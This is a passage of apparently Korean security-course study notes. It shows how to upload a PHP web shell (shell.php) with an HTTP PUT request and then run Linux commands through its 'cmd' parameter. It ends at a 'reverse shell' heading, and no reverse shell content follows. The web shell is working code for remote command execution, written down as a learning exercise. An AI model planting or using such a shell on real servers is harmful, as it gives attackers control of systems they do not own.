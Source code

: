 똑같이 PUT 입력하고 shell.php를 아래 내용으로 작성해주자

```php
<?php
    echo "<pre>"; // 정렬되게
    $cmd = ($_REQUEST['cmd']);
    system($cmd);
	echo "</pre>";
    die;
?>
```

그러면 다음과 같이 뜬다

![image-20200901163544382](secure_day2.assets/image-20200901163544382.png)

여기에 웹주소에 리눅스 명령어 입력해주면

![image-20200901164130005](secure_day2.assets/image-20200901164130005.png)

ㄷㄷㄷㄷㄷㄷㄷㄷㄷㄷㄷㄷㄷㄷㄷㄷ

<br/>

이제 웹에서 말고 cmd창에 들어가서 진짜 해킹해보겠다 ㄷㄷㄷㄷㄷㄷㄷ

리버스쉘(reverse shell)
